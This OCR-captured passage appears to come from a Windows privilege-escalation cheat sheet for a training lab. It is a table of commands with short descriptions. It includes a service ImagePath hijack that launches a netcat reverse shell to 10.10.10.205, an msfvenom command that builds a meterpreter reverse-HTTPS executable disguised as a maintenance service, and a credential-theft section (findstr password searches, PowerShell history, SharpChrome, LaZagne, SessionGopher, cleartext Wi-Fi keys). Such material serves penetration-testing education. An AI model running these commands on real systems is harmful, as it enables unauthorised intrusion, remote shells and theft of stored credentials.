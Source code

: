 |`accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`|Checking for weak service ACLs in the Registry|
|`Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`|Changing ImagePath with PowerShell|
|`Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl`|Check startup programs|
|`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`|Generating a malicious binary|
|`get-process -Id 3324`|Enumerating a process ID with PowerShell|
|`get-service \| ? {$_.DisplayName -like 'Druva*'}`|Enumerate a running service by name with PowerShell|

## Credential Theft

| **Command**                                                                                                               | **Description**                                    |
| ------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`                                                              | Search for files with the phrase "password"        |
| `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password` | Searching for passwords in Chrome dictionary files |
| `(Get-PSReadLineOption).HistorySavePath`                                                                                  | Confirm PowerShell history save path               |
| `gc (Get-PSReadLineOption).HistorySavePath`                                                                               | Reading PowerShell history file                    |
| `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`                                                                 | Decrypting PowerShell credentials                  |
| `cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt`                                         | Searching file contents for a string               |
| `findstr /si password *.xml *.ini *.txt *.config`                                                                         | Searching file contents for a string               |
| `findstr /spin "password" *.*`                                                                                            | Searching file contents for a string               |
| `select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password`                                              | Search file contents with PowerShell               |
| `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`                                        | Search for file extensions                         |
| `where /R C:\ *.config`                                                                                                   | Search for file extensions                         |
| `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`                                  | Search for file extensions using PowerShell        |
| `cmdkey /list`                                                                                                            | List saved credentials                             |
| `.\SharpChrome.exe logins /unprotect`                                                                                     | Retrieve saved Chrome credentials                  |
| `.\lazagne.exe -h`                                                                                                        | View LaZagne help menu                             |
| `.\lazagne.exe all`                                                                                                       | Run all LaZagne modules                            |
| `Invoke-SessionGopher -Target WINLPE-SRV01`                                                                               | Running SessionGopher                              |
| `netsh wlan show profile`                                                                                                 | View saved wireless networks                       |
| `netsh wlan show profile ilfreight_corp key=clear`                                                                        | Retrieve saved wireless passwords                  |

## Other Commands
